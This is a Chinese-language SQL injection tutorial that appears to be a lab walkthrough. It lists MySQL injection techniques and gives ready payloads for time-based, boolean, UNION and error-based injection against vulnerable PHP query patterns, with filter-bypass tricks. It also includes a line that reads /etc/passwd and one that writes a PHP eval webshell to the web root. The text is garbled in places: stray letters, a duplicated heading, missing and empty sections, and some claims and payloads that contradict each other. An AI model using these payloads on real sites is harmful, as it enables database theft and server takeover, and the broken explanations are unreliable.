 #SQL—Injection
应用程序在向后台数据库传递SQLc查询时，如果为攻击者提供了影响该查询的能力，就会引起sql注入。简而言之就是程序代码在编写的时候没有对用户可控的变量进行合适的判断d和处理导致不可信数据被作为命令或是数据查询的一部分发送到用户客户端，导致漏洞的发生。
##Mysql注入
###Mysql数据库版本
 - show version(); < 5.0 没有information_schema数据库;
 - show version(); > 5.0 有内置information_schema数据库，可以快速查找表明;
 - show version(); > 5.5 有内置information_schema数据库和performance_schema数据库(用于收集数据库服务器性能参数)；  

###注释符
 - `#` `/*` `-- -` `;%00`  `` ` 
 - 值得注意：在Accsee数据库中没有注释符的存在，但是在一定条件下可以使用%00来代替注释符。

###注入方式
 - inband,利用攻击者和存在漏洞的wen程序之间现有的f通信方式来进行sql注入并提取数据，Union注入、报错注入(error-base)；
 - inference,通过传入不同的参数值来观察web程序表现的差异性来进行sql注入并提取数据，布尔值注入(bool)、时间注入(time-base)；
 - Out-of-inband，当现有的通信渠道不能提取数据d时，我们可以利用其他渠道来尝试提取数据，如e-mail、HTTP/DNS、文件系统；

###Mysql 读写文件
 - LOAD_FILE() 
    - SELECT LOAD_FILE('/etc/passwd');
    - Mysqlyd用户必须有文件读取的权利；文件大小要小于max_allowed_packet;
 - INTO OUTFILE()
   - SELECT '<?php eval($_REQUEST[\'s\']);>' INTO FILE '/var/www/1.php';
   - INTO OUTFILE不能覆盖已经存在的文件；

###常用函数
 - `@@VERSION()` `VERSION()` `current_user` `database()` `@@HOSTNAME`

##SQL
 - [SQL-1](#sql-1)
 - [SQL-2](#sql-2)
 - [SQl-3](#sql-3)
 - [SQl-4](#sql-4)
 - [SQL-5](#sql-5)
 - [SQl-6](#sql-6)
 - [SQl-7](#sql-7)
 - [SQl-8](#sql-8)


##<span id="SQL-2">SQL-2</span>
###mysql_query
 - `SELECT * FROM users WHERE id=1 LIMIT 0,1;`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-2">SQL-2</span>
对比于SQL-1的直接传值$id，SQL-2中在SQL-1注入Payload的基础上需要对y单引号`'`进行闭合；
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1;`
###PayLoad
 - time-based blind 
    - `id=1' AND SLEEP(5) AND 'sql'='sql`
    - `id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa) and 'Kevinsa'='Kevinsa`
 - boolean-based blind 
    - `id=1' AND 6036=6036 AND 'Drgh'='Drgh`
 - UNION query
    - `id=-3563' UNION ALL SELECT NULL,NULL,CONCAT()-- Kevinsa'`

##<span id="SQL-3">SQL-3</span>
###mysql_query
 - `SELECT * FROM users WHERE id=($id) LIMIT 0,1;`
###Payload
 - time-based blind
    - `?id=1) AND SLEEP(5) AND (1=1# `
 - boolen-based blind
    - `?id=1) AND 1378=1379 AND ('ARzY'='ARzY'`

##<span id="SQL-4">SQL-4</span>
可以看到SQL-4与SQL-1是相类似的，在不需要闭合任何符合的情况下就可以进行SQL注入，但是在SQL-4中值得一提的是，SQL-4中开启了`mysql_error();`，r所以我们可以利用报错注入的方式来提取数据。
###mysql_query
 - ```
   $sql_query="SELECT * FROM users WHERE id=$id LIMIT 0,1";
   mysql_query($sql_query);
   echo mysql_error;
   ```

###Payload
 - error-based blind
    - `?id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`
        - floor(rand(0)*2)、count(*)、group by，报错方式的原理是：使用rand()查询时，由于group by的存在floor(rand(0)*2)会被执行一次，当x虚拟表不存在时，插入虚拟表会被再执行一次，而报错正是因为floor(rand(0)*2)的确定性011；文章：Wooyun知识库-Mysql报错注入原理分析(count()、rand()、group by)
    - `id=1  and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`
        - extractvalue是mysql5.1提供的内置XML文件解析和修改函数，函数语法为extratvalue(XML_document,XPath_string),其中的XML_document是string格式，而当我们传入一个数值时，extractvalue()函数会产生报错；
    - `id=1  and (updatexml(1,concat(0x7e,(select user()),0x7e),1))`
        - updatexml同样是mysql5.1中提供的内置xml文件解析和修改函数，函数语法为updatexml(XML_document,XPath_string,new_value),其中的XML_document是string格式，而当我们传入一个数值时，updatexml()函数会产生报错；

##<span id="SQL-5">SQL-5</span>
虽然SQL-5的csql查询方式和SQL-1一样，但是php代码中没有对结果的输出点，而且注入布尔值判断也不影响页面正常输出任何内容，所以我们只能利用time-based blind。
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1; 
    /* echo mysql_query(); */`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`

##<span id="SQL-6">SQL-6</span>
SQL-6对比与SQL-1多了一层粗糙的过滤，`function sqlentities()`以黑名单的方式对id参数值进行过滤。
###mysql_query
 - ```
   function sqlentities($var) {
    $var = str_replace("select"," ",$var);
	$var = str_replace("sleep"," ",$var);
	$var = str_replace("and"," ",$var);
	$var = str_replace("from"," ",$var);
	$var = str_replace("where"," ",$var);
	$var = str_replace("union"," ",$var);
	
	return $var;
	}

   ```
###Payload
最简单的方式，我们一大小写混淆来绕过过滤
- time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-7">SQL-7</span>
相对于SQL-6，SQL-7匹配为大小写匹配，我们不能用大小写混淆来绕过过滤。
###mysql_quey
 -  ```
    function sqlentities($var) {
    $var = preg_replace('/(select|where|sleep|and|from|union)/i',"",$var);
	return $var;
	}
	}
  ```

###Payload
- time-based blind 
    - `id=1 ANandD SLandEEP(5) `
    - `id=1 AND (SELEandCT * FandROM (SandELECT(SLandEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 ANandD 6036=6036`
 - UNION query
    - `id=-3563 UNandION ALL SELECandT NULL,NULL,CONCAT()--`

####<span id="SQL-8">SQL-8</span>
